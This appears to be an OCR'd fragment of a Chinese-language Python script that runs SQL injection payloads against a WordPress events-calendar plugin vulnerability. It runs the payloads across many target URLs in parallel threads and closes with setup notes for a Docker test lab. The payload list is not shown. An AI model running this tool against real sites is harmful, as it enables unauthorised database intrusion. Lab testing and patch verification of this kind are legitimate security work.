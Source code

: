     except requests.exceptions.RequestException as e:
        log_result(url, payload, "錯誤", 0, str(e), False)
        print(f"[-] 錯誤 {url} with {payload}: {e}")

def test_target(target_url):
    """對單個目標執行所有 payload 測試"""
    for payload in PAYLOADS:
        test_sql_injection(target_url, payload)

def load_targets_from_file(file_path):
    """從檔案讀取目標 URL"""
    if os.path.exists(file_path):
        with open(file_path, 'r') as f:
            return [line.strip() for line in f if line.strip()]
    return []

def main():
    # 如果有目標檔案，讀取之
    target_file = "targets.txt"
    if os.path.exists(target_file):
        global TARGET_URLS
        TARGET_URLS.extend(load_targets_from_file(target_file))

    if not TARGET_URLS:
        print("[-] 無目標 URL，請在腳本中設置 TARGET_URLS 或提供 targets.txt")
        return

    print(f"[*] 開始測試 {len(TARGET_URLS)} 個目標，Payload 數量: {len(PAYLOADS)}")
    
    # 使用多執行緒測試
    threads = []
    for url in TARGET_URLS:
        thread = threading.Thread(target=test_target, args=(url,))
        threads.append(thread)
        thread.start()

    # 等待所有執行緒完成
    for thread in threads:
        thread.join()

    print(f"[*] 測試完成，結果已儲存至 {LOG_FILE}")

if __name__ == "__main__":
    main()

使用說明

環境設置：

安裝 Python 3 和 requests 庫：pip install requests
設置 WordPress 測試環境（例如使用 Docker：docker run -p 80:80 wordpress）。
安裝 Modern Events Calendar Lite 插件（版本 < 6.1.5）進行漏洞測試，或版本 ≥ 6.1.5 驗證修補。
